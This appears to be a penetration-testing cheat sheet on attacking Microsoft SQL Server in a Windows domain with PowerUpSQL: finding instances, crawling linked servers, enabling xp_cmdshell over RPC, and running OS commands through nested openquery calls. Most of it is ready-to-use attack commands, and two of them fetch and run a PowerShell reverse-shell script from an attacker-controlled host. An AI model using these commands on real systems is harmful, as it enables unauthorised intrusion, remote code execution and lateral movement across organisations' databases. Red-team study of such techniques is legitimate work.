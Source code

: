 **MSSQL Servers**  

```powershell
# For MSSQL and PowerShell hackery, use PowerUpSQL https://github.com/NetSPI/PowerUpSQL
# Discovery (SPN Scanning)
Get-SQLInstanceDomain

# Check Accessibility
Get-SQLConnectionTestThreaded
Get-SQLInstanceDomain | Get-SQLConnectionTestThreaded -Verbose

# Gather Information
Get-SQLInstanceDomain | Get-SQLServerInfo -Verbose

# HeidiSQL can be used to access linked databases: https://www.heidisql.com/
# Look for links to remote servers
Get-SQLServerLink -Instance <sql-instance> -Verbose
# We can manually enumerate linked servers from inside a MSSQL instance (Using Heidi)
select * from master..sysservers

# Openquery function can be used to run queries on a linked database
select * from openquery("192.168.23.25",'select * from master..sysservers')
# Openquery queries can be chained to access links within links (nested links)
select * from openquery("192.168.23.25 ",'select * from openquery("db-sqlsrv",''select @@version as version'')')
# As queries are nested, the number of quotes should double for each nest
```

Executing Commands  
rcp and rpcout need to be enabled to execute commands  
Run the below commands from the DB before a link to a DB that has RPC or RPCOUT disabled  

```powershell
# On the target server, either xp_cmdshell should be already enabled; or
# If rpcout is enabled (disabled by default), xp_cmdshell can be enabled using: (Invoke-SqlCmd is Get-SQLQuery in powerupsql)
Invoke-SqlCmd -Query "exec sp_serveroption @server='<db_server>', @optname='rpc', @optvalue='TRUE'"
Invoke-SqlCmd -Query " exec sp_serveroption @server='<db_server>', @optname='rpc out', @optvalue='TRUE'"
Invoke-SqlCmd -Query "EXECUTE('sp_configure ''show advanced options'',1;reconfigure;') AT ""<db_server>"""
Invoke-SqlCmd -Query "EXECUTE('sp_configure ''xp_cmdshell'',1;reconfigure;') AT ""<db_server>"""
# Reverse these settings on an engagement when completed

# From the initial SQL server, OS commands can be executed using nested link queries:
# As queries are nested, the number of quotes should double for each nest
select * from openquery("<linked-db-server>",'select * from openquery("<db_server>",''select @@version as version;exec master..xp_cmdshell "powershell iex (New-Object Net.WebClient).DownloadString(''''http://<attacker-machine>/Invoke-PowerShellTcpEx.ps1'''')"'')')
```

```powershell
# With RPC, RPC OUT and xp_cmdshell enabled on all desired links, run commands on machines:
# Crawling links to remote servers
Get-SQLServerLinkCrawl -Instance <sql-instance>
# Abusing links to remote servers (without -QueryTarget the command tries to use xp_cmdshell on every link of the chain)
Get-SQLServerLinkCrawl -Instance <sql-instance> -Query 'exec master..xp_cmdshell ''whoami''' -QueryTarget <db-server>
# Get a reverse shell
Get-SQLServerLinkCrawl -Instance <initial-sql-server> -Query "exec master..xp_cmdshell 'powershell iex (New-Object Net.WebClient).DownloadString(''http://<attacker-machine>/Invoke-PowerShellTcpEx.ps1'')'" -QueryTarget <db-server>
```
